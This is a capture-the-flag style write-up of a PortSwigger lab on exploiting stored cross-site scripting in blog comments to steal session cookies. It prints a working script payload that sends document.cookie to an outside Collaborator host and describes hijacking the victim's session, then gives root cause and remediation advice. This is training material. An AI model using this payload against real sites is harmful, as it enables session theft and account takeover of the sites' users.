

## Metadata

- **Difficulty:** Practitioner
- **Category:** Cross-site Scripting (XSS)
- **Lab URL:** [Lab: Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)
- **Date Solved:** 22/7/2026
## Vulnerability Summary

The app contains an XSS vulnerability in the blog comment functionality, specifically in the comment body, where user supplied input is reflected unsanitized. Using this as an injection point to execute `JavaScript`, we can inject a script that forces the victim's browser to make an HTTP request to our Burp Collaborator domain, exfiltrating their session cookie.
## Reconnaissance

- Entering a basic payload (`<script>alert(1)</script>`) in the comment's body and submitting it, we see that as the app loads the comments, the `alert()` function is invoked, and a dialogue box appears. We can confirm that this is a possible injection point.
## Exploitation Steps

1. Navigate to any post, e.g. `url/post?postId=1`.
2. In Burp Professional, navigate to the Collaborator tab and click "Copy to clipboard" to generate a Burp Collaborator payload. It will be in the form of `your-domain-id.oastify.com`.
3. In the comment's body, type in this script:
```js
<script>
fetch('https://your-domain-id.oastify.com', {
method: 'POST',
body: document.cookie
});
</script>
```
The rest of the fields can be filled randomly. After that, submit comment, and click back to blog in the "comment submitted successfully" screen.
4. In Burp Professional - Collaborator tab, click poll now. Look for a HTTP request received by your Collaborator server that comes from a **different** source IP address than yours. In the "Request to Collaborator" tab, you should see the session cookie of the victim as follows:

5. Simply make a request with this cookie value (by intercepting a request made by you with Burp and replacing the `session` parameter with the stolen victim's session cookie). Lab should be marked as solved.
## Payload Used

```js
<script>
fetch('https://your-domain-id.oastify.com', {
method: 'POST',
body: document.cookie
});
</script>
```
 The script makes anyone who views the comment issue a POST request containing their cookie to our subdomain on the public Collaborator server. As the comment body is reflected unsanitized, we can use it to execute our `JavaScript` payload.
## Root Cause

1. The app takes untrusted user input (the comment body) and reflects it directly into the HTML DOM when rendering the blog post. The developer failed to implement context-aware HTML entity encoding, allowing the browser to interpret the input as executable `JavaScript` rather than plain text.
2. The session cookie is not protected by the `HttpOnly` flag. This configuration error exposes the cookie to the `document.cookie` DOM property, allowing client-side JavaScript to access and transmit it.
## Remediation

- All user-supplied data must be strictly encoded before being rendered in the browser. For HTML body context, characters with special meaning (`<`, `>`, `&`, `"`, `'`) must be converted to their corresponding safe HTML entities (e.g., `<` becomes `&lt;`).
- Ensure all session identifiers and sensitive cookies are issued with the `HttpOnly` flag. This instructs the browser to deny JavaScript access to the cookie, mitigating the impact of an XSS vulnerability by preventing direct session hijacking.
- Deploy a strict CSP via HTTP response headers to restrict the sources from which scripts can be executed and the destinations to which data can be sent (e.g., blocking outbound `fetch` requests to unauthorized domains).